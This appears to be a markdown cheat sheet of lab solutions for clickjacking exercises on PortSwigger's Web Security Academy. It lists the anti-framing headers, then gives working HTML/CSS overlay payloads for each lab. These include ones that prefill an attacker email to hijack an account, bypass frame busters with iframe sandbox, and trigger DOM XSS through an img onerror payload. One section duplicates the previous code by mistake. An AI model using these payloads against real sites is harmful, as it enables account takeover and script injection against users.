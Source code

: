# Clickjacking

## Will not work if can se these **headers**:

### X-Frame-Options:

		DENY: Prevents the site from being embedded in any iframe.
		SAMEORIGIN: Allows embedding only if the parent page is from the same origin.
		ALLOW-FROM <URL>: (Less common, partially deprecated) Allows embedding only from a specific origin.

### Content-Security-Policy (CSP):

		frame-ancestors 'none': Completely blocks framing of the page.
		frame-ancestors 'self': Only allows embedding from the same origin.
		frame-ancestors <URL>: Allows embedding only from specified sources.
  
### Example:

```
X-Frame-Options: DENY

Content-Security-Policy: frame-ancestors 'none';
```

## Basic:
```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

## Basic clickjacking with CSRF token protection

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

## Clickjacking with a frame buster script

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. 
An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 
When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:
`<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click.

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
	div {
		position:absolute;
		top:610px;
		left:80px;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep clickjacking

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:330px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:330px;
		left:50px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
